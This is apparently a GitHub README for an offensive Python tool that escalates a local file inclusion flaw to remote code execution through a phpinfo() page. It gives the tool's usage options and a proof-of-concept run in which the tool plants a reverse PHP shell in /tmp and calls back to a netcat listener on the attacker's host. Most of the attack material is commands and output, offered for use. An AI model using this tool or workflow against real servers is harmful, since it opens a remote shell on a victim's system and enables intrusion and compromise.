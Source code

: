 # LFI to RCE via phpinfo()
Research from !(https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

# Use case

- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 


# Usage 

```
usage: phpinfolfi_rce.py [-h] -l LFI [-t THREADS] --lhost LHOST --lport LPORT
                         -i PHPINFO [--payload PTYPE] [-e REQEND] [-v VERBOSE]

RCE from LFI with PHPINFO assistance

optional arguments:
  -h, --help            show this help message and exit
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  -t THREADS, --threads THREADS
                        Threads number, set to 10 by default
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  -i PHPINFO, --phpinfo PHPINFO
                        Define the url path of the "phpinfo" script. Per ex:
                        "http://host/phpinfo.php"
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
```


# POC

```
$ python phpinfolfi_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

### Nota 

Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```


